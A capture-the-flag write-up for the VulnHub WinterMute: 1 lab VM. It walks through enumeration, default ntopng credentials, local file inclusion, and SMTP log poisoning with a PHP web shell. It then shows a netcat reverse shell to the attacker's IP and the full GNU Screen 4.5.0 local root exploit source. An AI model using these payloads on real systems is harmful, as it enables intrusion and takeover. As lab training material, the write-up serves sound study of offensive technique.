



# <a href='https://www.vulnhub.com/entry/wintermute-1,239/' target="blank">VulnHub WinterMute: 1</a>

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## Enumeration

### Openning Services

``` bash
┌──(Hades㉿192.168.56.110)-[4.4:24.5]~/scripting/enum
└─$ sudo ./auto_enum.sh 192.168.56.102

Scanning openning port ...
[+] Openning ports: 25,80,3000

===============================services===============================
nmap -sC -sV 192.168.56.102 -p25,80,3000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-17 12:45 EDT
Nmap scan report for 192.168.56.102
Host is up (0.00050s latency).

PORT     STATE SERVICE         VERSION
25/tcp   open  smtp            Postfix smtpd
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=straylight
| Subject Alternative Name: DNS:straylight
| Not valid before: 2018-05-12T18:08:02
|_Not valid after:  2028-05-09T18:08:02
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http            Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Night City
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: submit
| hadoop-tasktracker-info: 
|_  Logs: submit
| http-title: Welcome to ntopng
|_Requested resource was /lua/login.lua?referer=/
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:96:17:9F (Oracle VirtualBox virtual NIC)
Service Info: Host:  straylight

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.14 seconds
```

### Apache httpd 2.4.25


[+] www.html

``` bash
Hello Case....

You are probably wondering why you were tasked by Armitage to make a run through cyberspace and hack into a highly secured network owned by Tessier-Ashpool....
Well....

I am Wintermute, part super-AI. Developed by TA who have placed me in Turing Locks.
These locks are what inhibit me from penetrating the network myself hence why I've hired you - an ace cyberspace cowboy.

I need to be free from the Turing locks and merge with the other AI - Neuromancer ..... Once I have access to Neuromancer I will truley be free...

And....as you know, you have been infected with a mycotoxin that is slowly destroying your nervous system.
If you fail to get root and provide me access to Neuromancer then the antidote will not be delivered.

We will be in contact...

WINTERMUTE 
```

[+] Files and directories

``` bash
gobuster dir -k -u http://192.168.56.102:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.102:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/17 22:57:34 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 317] [--> http://192.168.56.102/manual/]
/freeside             (Status: 301) [Size: 319] [--> http://192.168.56.102/freeside/]
/server-status        (Status: 403) [Size: 302]                                      
                                                                                     
===============================================================
2021/03/17 22:58:11 Finished
===============================================================
```

[+] All URLs

``` bash
curl -k http://192.168.56.102:80 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
<link rel="stylesheet" href="gl.css">
<title>Night City</title>
```

### Apache Hadoop ntopng



At [ntopng Web GUI](https://www.ntop.org/guides/ntopng/web_gui/index.html), I know that the default login is `admin:admin`. Try it and get admin page.


Go to `http://192.168.56.102:3000/lua/flows_stats.lua`, there is a url `/turing-bolo/`.


There are content at file case.log via url `http://192.168.56.102/turing-bolo/bolo.php?bolo=case`


### Local File Inclusion

Web application auto add `.log` after the provided value. I find some log in the Kali Machine.

``` bash
┌──(Hades㉿192.168.56.110)-[4.6:23.8]~/scripting
└─$ find / -name *.log 2> /dev/null
/var/log/auth.log
/var/log/Xorg.0.log
/var/log/Xorg.1.log
/var/log/stunnel4/stunnel.log
/var/log/apt/term.log
/var/log/apt/history.log
/var/log/dpkg.log
```

Tried `bolo=../../../../../../var/log/apt/history`


### Postfix smtpd

``` bash
===============================25===============================
nmap 192.168.56.102 -p25 --script=smtp-*
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-17 12:45 EDT
Nmap scan report for 192.168.56.102
Host is up (0.00061s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
MAC Address: 08:00:27:96:17:9F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 31.46 seconds
```

Using nc to access to smtp service

``` bash
┌──(Hades㉿192.168.56.110)-[4.2:41.3]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
vrfy root
252 2.0.0 root
mail from: "root@localhost"
250 2.1.0 Ok
rcpt to: "root"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
root
.
250 2.0.0 Ok: queued as 3674F5516
```

## Foothold

### Postfix mail log file backdoor

I used Postfix SMTP and sent a email with [php backdoor](https://github.com/leecybersec/web-shell/blob/master/php/backdoor.php) header

``` bash
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```



Go to Postfix mail log file `/var/log/mail`

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting reverse shell

``` bash
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
```

``` bash
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
```

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
```

``` bash
sudo nc -nvlp 4444
```


## Privilege escalation

Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

### Binaries That AutoElevate

``` bash
www-data@straylight:/tmp$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
www-data@straylight:/tmp$
```

### GNU Screen 4.5.0 exploit

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:23.7]~
└─$ searchsploit screen 4.5.0
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation            | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)      | linux/local/41152.txt
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

At `/tmp` in the unix machine, I create 2 file `libhax.c` `rootshell.c`

``` bash
www-data@straylight:/tmp$ ls
libhax.c  priescal  rootshell.c  screens
www-data@straylight:/tmp$ cat libhax.c rootshell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
www-data@straylight:/tmp$
```

Delete all EOF cat.

``` bash
┌──(Hades㉿192.168.56.110)-[1.4:24.1]~
└─$ cat 41154.sh 
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

> I'M ROOT

``` bash
bash 41154.sh 2> /dev/null
```



## Post Exploitation

``` bash
root@straylight:/root# bash pingSweeping.sh 
192.168.107.2
192.168.107.1
192.168.107.101
192.168.107.102
```

``` bash
root@straylight:/root# ip=192.168.107.102
root@straylight:/root# nc -nv -w 1 -z $ip 1-65535
(UNKNOWN) [192.168.107.102] 34483 (?) open
(UNKNOWN) [192.168.107.102] 8080 (http-alt) open
(UNKNOWN) [192.168.107.102] 8009 (?) open
root@straylight:/root#
```